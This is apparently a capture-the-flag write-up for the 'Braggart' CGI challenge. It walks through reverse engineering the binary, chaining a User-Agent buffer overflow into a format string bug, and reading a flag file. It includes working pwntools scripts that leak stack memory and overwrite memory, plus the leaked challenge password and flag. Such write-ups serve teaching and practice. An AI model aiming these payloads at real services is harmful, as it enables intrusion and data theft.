








# Braggart



For this challenge, a binary and an URL were provided:



```bash
$ file sec.bak
sec.bak: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,
BuildID[sha1]=938da16dc1750d2efaaf4a3abc0e70ea1dea0020, for GNU/Linux 3.2.0, not stripped
```

Analysing the binary, we can spot some vulnerabilities and hidden features:




The main function check for an "X-PASSWORD" header and compare its value to the environnement variable "AdminPass", if it's equal, it call the printSecret functions, otherwise, printMain is called.

The main function show that a debug feature can be triggered by passing the "X-DEBUG" header value to 1 when performing HTTP request.
This function prints remote IP address and User Agent information when called.

A buffer overflow can be spotted in the printDebug function:



Indeed, the value of the User-Agent header is copied without size control. Since stack cookie is present, we cannot overwrite the return address, let's see what we can do.
The following command line is used to debug the program:

```bash
$ QUERY_STRING=TEST REQUEST_METHOD=GET HTTP_X_DEBUG=1 AdminPass=test HTTP_X_PASSWORD=notpassword CONTENT_LENGTH=40 workingDir=/home/ctf/
REMOTE_ADDR=1.1.1.1 HTTP_USER_AGENT=chromium gdb ./sec.bak ; echo
```

A breakpoint is set to the second strcpy call:


```bash
pwndbg> x/200gx 0x7fffffffd4c0
0x7fffffffd4c0:	0x00312e312e312e31	0x0000000000000000
...
0x7fffffffd860:	0x0000000000021000	0xb21f90d4859a1100 <-- canary
0x7fffffffd870:	0x000000000000060f	0x0000000000000290
0x7fffffffd880:	0x00007ffff7df6c80	0x0000000000000280
0x7fffffffd890:	0x0000000000000029	0xffffffffffffffc0
0x7fffffffd8a0:	0x00007ffff7df6ce0	0x00007ffff7c9eb80
0x7fffffffd8b0:	0x0000000000007325	<--- format
0x7fffffffd8c0:	0x0000000000000000	0x0000000000000000
0x7fffffffd8d0:	0x0000000000000000	0x0000000000000000
0x7fffffffd8e0:	0x0000000000000000	0x0000000000000000
0x7fffffffd8f0:	0x0000000000000000	0x0000000000000000
```
Some .text address, the stack cookie value AND, the format used to print out the User-Agent data are present on the stack. That means that the buffer overflow can be used to trigger a format string bug vulnerability.
Such a bug will be usefull to leak memory and overwrite some locations.

For example, the stack can be read using the leak.py script:

```python
from pwn import *
import requests
import sys

url = "https://nessus-braggart.chals.io/sec.cgi"

for i in range(int(sys.argv[1]),int(sys.argv[2])):
    index = bytes(str(i),'utf-8')
    header = {"User-Agent":cyclic(1008)+b"%"+index+b"$"+bytes(sys.argv[3],'utf-8'),"X-DEBUG":"1"}
    r = requests.get(url, headers=header)
    if "Internal Server Error" in r.text:
        log.info("Fail to read offset")
        continue
    res = r.text.split("User Agent : </h3>")[1].split("</pre>")[0]
    print(res)
```
(script has been improoved later :D)
The password is obtained by leaking environnement variables:



Let's get the flag !



... Let's analyse the printSecret function:



The full path which is opened is build in two parts, first, the program get the workingDir environnement variable, then concat the word "brag" to it.

Since we control a format string bug, it is possible to overwrite "brag" with "flag" and get the flag !

To perform such an exploit, the "brag" string pointer offset is needed, let's fuzz again but withing the "printSecret" function (which call the printDebug and trig the overflow).

```
...
260 -> (null)
261 -> (null)
262 -> (null)
[*] Fail to read offset
264 -> À9°ý\x7f                                        \x05Y\x0b
266 ->
267 -> brag
268 -> /home/ctf/
269 ->
```

String "brag" is identified at offset 267. Now, the only thinkg to do is to overwrite 2 bytes "br" with "fl", and the final path will be /home/ctf/flag.

```python
from pwn import *
import requests

url = "https://nessus-braggart.chals.io/sec.cgi"

password = "xbYP3h7Ua94c" # This was added after fuzzing

header = {"User-Agent":cyclic(1008)+b"%27750x%267$hn","X-DEBUG":"1","X-PASSWORD":password} # 27750 -> '0x6c66' --> lf
r = requests.get(url, headers=header)
print(r.text)
```
```
flag{f0rmat_th3m_str1ngz}
```


